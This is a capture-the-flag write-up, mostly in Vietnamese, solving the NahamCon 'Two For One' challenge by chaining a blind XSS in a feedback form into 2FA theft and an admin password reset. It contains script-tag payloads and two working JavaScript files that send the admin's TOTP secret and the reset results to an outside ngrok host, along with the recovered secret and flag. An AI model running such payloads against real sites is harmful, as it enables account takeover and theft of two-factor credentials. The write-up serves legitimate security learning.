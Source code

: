 # nahamcom CTF - Two For One

Blind XSS make cross-site request forgery đánh cắp 2FA QR code sau đó reset password chiếm tài khoản admin

## Description
Need to keep things secure? Try out our safe, the most secure in the world!

## Solution

### Review
- Chall truy cập vào redirect đến register page, thử đăng kí username là admin thì báo lỗi username đã tồn tại => Có lẽ mục đích là trộm cắp gì đó của admin.

- Việc login và register yêu cầu scan QR 2FA để lấy code mỗi lần truy cập

- Quét QR xong, vào có trang chứa secret, có page settings gồm các chức năng: Reset password, Reset2FA và Feedback.

+ Phần reset password chỉ cần nhập mật khẩu muốn đổi + 2FA code

+ Phần reset 2FA chỉ cần scan QR code để đổi mới, khi request QR mới, một request được gửi đi và response về đường link chứa QR tựa như: 

http://challenge.nahamcon.com:31169/reset2fa
```
{"url":"otpauth://totp/Fort%20Knox:2?secret=VOEJIF5EA7UDKTAS&issuer=Fort%20Knox"}
```

+ Phần feedback dính lỗi XSS từ phía admin, triger để test đơn giản: <scirpt src="http://e405-42-112-56-248.ngrok.io/evil.js"></scirpt>

![setting](https://user-images.githubusercontent.com/71699412/167260883-9d76f2d0-b2cd-4469-8037-2896aff45b28.jpg)

### Exploit

**Ý tưởng**: Mục tiêu có lẽ là đánh cắp tài khoản admin để đọc được secret bằng cách lợi dụng XSS make request reset 2FA và nhận lại response trả về chứa QR code. Sau khi có QR code của admin, ta scan và lấy được 2FA code tiếp tục exploit XSS reset password với 2FA code của admin vừa có được. Reset password thành công, ta vào được tài khoản admin đọc secret.

**Step 1**: Đánh cắp QR code của admin qua XSS

Gửi feedback là: 
```html
<script src="http://e405-42-112-56-248.ngrok.io/evil_1.js"></script>
```
Link trên trỏ đến file js ta tự host để exploit XSS, file evil_1.js:

```js
var xhr = new XMLHttpRequest;
xhr.open("POST", "http://challenge.nahamcon.com:31169/reset2fa", true);
xhr.withCredentials = true;
xhr.onload = function() {
	var qr = btoa(xhr.responseText);
	var exit = new XMLHttpRequest;
	exit.open("GET", "http://e405-42-112-56-248.ngrok.io?qr=" + qr);
	exit.send();
};

xhr.send();
```

Từ link trả về, ta decode base64 được:
```json
{"url":"otpauth://totp/Fort%20Knox:admin?secret=L6EFVJEYQOQIZ4N7&issuer=Fort%20Knox"}
```

Ta dùng google `/chart` để generate QR code với secret trên: https://www.google.com/chart?chs=200x200&chld=MJ0&cht=qr&chl=otpauth://totp/Fort%20Knox:admin?secret=L6EFVJEYQOQIZ4N7&issuer=Fort%20Knox

**Step 2**: Với 2FA code, reset password của admin qua XSS

Gửi feedback là: 
```html
<script src="http://e405-42-112-56-248.ngrok.io/evil_2.js"></script>
```

file `evil_2.js`:
```js
var xhr = new XMLHttpRequest();
var url = "http://challenge.nahamcon.com:30299/reset_password";

xhr.open("POST", url, true);
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");

// debug
xhr.onload = function() {
	var status = btoa(xhr.responseText);
	var exit = new XMLHttpRequest;
	exit.open("GET", "http://e405-42-112-56-248.ngrok.io?status=" + status);
	exit.send();
};

// OTP vừa scan từ QR code của admin
xhr.send(JSON.stringify({"otp":"786746","password":"admin","password2":"admin"}));
```
GET /?status=eyJzdWNjZXNzIjp0cnVlfQo= ==> `{"success":true}`

![console](https://user-images.githubusercontent.com/71699412/167260871-c93f5cc3-9bf9-478b-9ff4-fc085499db91.jpg)

Login as admin với admin:admin

**flag**: `flag{96710ea6be916326f96de003c1cc97cb}`
